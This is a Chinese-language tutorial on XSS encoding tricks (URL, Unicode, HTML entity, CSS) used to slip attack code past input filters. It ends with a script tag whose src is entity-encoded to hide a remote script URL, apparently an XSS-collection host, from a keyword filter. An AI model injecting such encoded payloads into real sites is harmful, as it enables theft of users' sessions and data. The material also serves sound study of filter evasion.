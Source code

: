 # XSS编码与绕过

![](/attackUsers/xss/image/xss-17.png)

---

## 01. URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。

URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

这个在编码DOM XSS可能会用到，比如我上次说的`<<XSS分类与漏洞挖掘>>`0×04节DOM XSS 在chrome maxthon firefox里对URL里的a=后面的字节进行了URL进行编码，只能在360浏览器里成功，这就是浏览器对URL进行了URL编码。

## 02. unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。

Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

## 03. HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

例如：
```html
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

可以正常显示。

但是当你把src或者img进行html编码就不行了

例如：
```html
img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

## 04. CSS编码
这个不是太常用。就是/斜杠加上1-6位十六进制

之前在IE5之前都可以用expression来调用js时，这个编码很有用。 现在大多都是用于CSS小图标。

## 05. 假设
网站检测script标签里的src值是否为网站(关键字有`http&https&com&cn&net&&js`)

那我们该怎么绕过呢，看下面的实例代码：

```html
<script
src="&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#56;&#46;&#112;&#119;&#47;&#98;&#103;&#70;&#102;&#66;&#120;&#63;&#49;&#52;&#49;&#57;&#50;&#50;&#57;&#53;&#54;&#53;"></script>

```

打开审查元素——网络，我们成功的看到了我们的JS被加载了

![](/attackUsers/xss/image/xss-37.png)

